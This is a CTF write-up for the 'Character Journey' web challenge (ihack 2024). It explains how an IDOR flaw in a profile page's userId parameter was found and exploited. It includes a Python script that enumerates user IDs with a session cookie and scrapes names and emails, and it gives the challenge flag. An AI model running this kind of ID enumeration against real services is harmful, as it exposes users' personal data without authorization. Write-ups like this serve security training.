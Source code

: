 ```yaml
---
title: Character Journey
description: The objective of the "Character Journey" CTF challenge is to find and retrieve the flag from a web application by exploiting IDOR.
date: 2024-07-28 00:00:00+0000
categories:
   - ihack-prelim-2024
   - CTF Writeup
tags:
   - Web
weight: 1     
---
```

# Character Journey CTF Challenge Writeup

## Challenge Information
- **Name**: Character Journey
- **Points**: 500
- **Category**: Web
- **Objective**: Find and retrieve the flag from a web application by exploiting vulnerabilities.

![Challenge](challenge.png)

## Solution
To solve the "Character Journey" challenge, follow these steps:

1. **Initial Exploration**:
   - Visit the web page and register for an account.
   - Upon registration, we observed that the application doesn't have notable functionality 
     - Feedback form does not actually send a POST request
     - YouTube link is quite useless 

2. **Investigating User Account Features**:
   - We then focused on the functionality of viewing your own account.
   - While exploring this feature, investigate the URL parameters and other user-specific data.

3. **Identifying the Vulnerability**:
   - Discover an Insecure Direct Object Reference (IDOR) vulnerability by manipulating user IDs in the URL (e.g., changing ID from 1 to 10).
   - Find that some URLs return base64 encoded text chunks.


        ![Found IDOR](<found IDOR.png>)



        ![Base64 Chunks](<base64 chunks.png>)

4. **Brute Force Exploration**:
   - Develop a script to automate the process of testing user IDs from 1 to 100.
   - Run the script to extract all base64 encoded text chunks.



      ```python
      import requests
      from bs4 import BeautifulSoup

      # Function to fetch profile information for a given userId
      def fetch_profile(user_id):
          url = f"http://character-journey.ihack24.capturextheflag.io/profile.php?userId={user_id}"
          headers = {
              "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
              "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
              "Accept-Language": "en-US,en;q=0.5",
              "Accept-Encoding": "gzip, deflate, br",
              "Connection": "close",
              "Referer": "http://character-journey.ihack24.capturextheflag.io/home.php",
              "Cookie": "PHPSESSID=be6885c0ca68d30c985be4b2fee16ebd",
              "Upgrade-Insecure-Requests": "1"
          }
          response = requests.get(url, headers=headers)
          if response.status_code == 200:
              return response.text
          else:
              print(f"Failed to fetch profile for userId: {user_id} with status code: {response.status_code}")
              return None

      # Function to parse HTML and extract username and email
      def parse_profile(html_content):
          soup = BeautifulSoup(html_content, 'html.parser')
          
          # Find <p> tags that contain the Name and Email
          name_tag = soup.find('p', text=lambda x: x and x.startswith('Name:'))
          email_tag = soup.find('p', text=lambda x: x and x.startswith('Email:'))

          if name_tag and email_tag:
              # Extract the text after "Name: " and "Email: "
              name = name_tag.get_text(strip=True).split(': ', 1)[1]
              email = email_tag.get_text(strip=True).split(': ', 1)[1]
              return name, email
          else:
              print("Could not find profile information in HTML content.")
              return None, None

      # Main function to fetch profiles for userId 0-61 and save to a file
      def main():
          with open('profiles.txt', 'w') as file:
              for user_id in range(100):
                  print(f"Fetching profile for userId: {user_id}")
                  html_content = fetch_profile(user_id)
                  if html_content:
                      name, email = parse_profile(html_content)
                      if name and email:
                          file.write(f"userId: {user_id}, Name: {name}, Email: {email}\n")
                      else:
                          file.write(f"userId: {user_id}, Profile information not found\n")
                  else:
                      file.write(f"userId: {user_id}, Failed to fetch profile\n")

      if __name__ == "__main__":
          main()
      ```

5. **Extracting the Flag**:
   - Review the extracted data from the brute force script.
   - Rather than decoding the base64 text, find the flag directly in the data without further processing.



      ![Brute Force](<brute force.png>)


      ![Flag](flag.png)


6. **Flag**: **ihack24{655b7b7ae4c62d726a568eff8914573e}**
